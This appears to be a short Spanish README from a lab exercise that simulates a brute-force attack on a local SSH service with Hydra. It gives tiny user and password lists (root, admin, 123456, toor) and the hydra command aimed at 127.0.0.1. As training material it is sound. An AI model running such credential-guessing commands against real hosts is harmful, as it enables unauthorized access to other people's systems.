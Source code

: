 # Simulación de Fuerza Bruta con Hydra

## 🔍 Objetivo
Simular un ataque de fuerza bruta a un servicio SSH local en un entorno controlado, utilizando la herramienta `hydra`.

## 🧪 Entorno
- Sistema: Ubuntu 22.04
- Servicio atacado: SSH
- IP objetivo: 127.0.0.1
- Herramienta: Hydra

## 🧰 Archivos usados
- `usuarios.txt`:
root
admin
- `passwords.txt`:
123456
admin
toor

## 💣 Comando ejecutado

```bash
hydra -L usuarios.txt -P passwords.txt ssh://127.0.0.1

